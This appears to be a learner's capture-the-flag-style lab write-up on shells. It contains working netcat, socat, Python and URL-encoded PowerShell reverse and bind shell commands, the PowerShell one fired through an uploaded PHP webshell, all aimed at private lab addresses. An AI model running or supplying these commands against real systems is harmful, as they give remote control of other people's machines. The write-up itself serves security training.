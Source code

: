Not using Kali. What a stupid question. Downloading pentest monkeys php reverse shell, uploading that then executing it worked fine however...

    3. Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

So once on the machine a reverse shell can be created by connecting back to my tun0 IP. `nc 10.9.5.6 4446 -e /bin/bash`

A bind shell can be set up with `nc -lnvp 4446 -e /bin/bash` and then connect to that from the attacking machine.

    4.Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

In order to create a reverse socat shell, on the attacker machine we set up our listener with `socat tcp-l:5557 -`. Next on the victim machine we run the command `socat tcp:10.9.5.6:5557 EXEC:"bash -li"`

In order to create a socat bind shell, first we set up the listener on the victim machine with `socat tcp-l:5558 EXEC:"bash -li"`. This is then connected to from the attacker machine with `socat tcp:10.10.163.76:5558 -`

    5. Look through Payloads all the Things and try some of the other reverse shell techniques. Try to analyse them and see why they work.

Python example
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.5.6",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

    6. Switch to the Windows VM. Try uploading and activating the php-reverse-shell. Does this work?

No 
```
gabriel@gabriel-P65-P67RGRERA:~$ nc -lnvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.155.109 49684
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

    7. Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

Entering this into the URL sent a reverse shell back to my listener
```
http://10.10.155.109/uploads/webshell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.9.5.6%27%2C4446%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
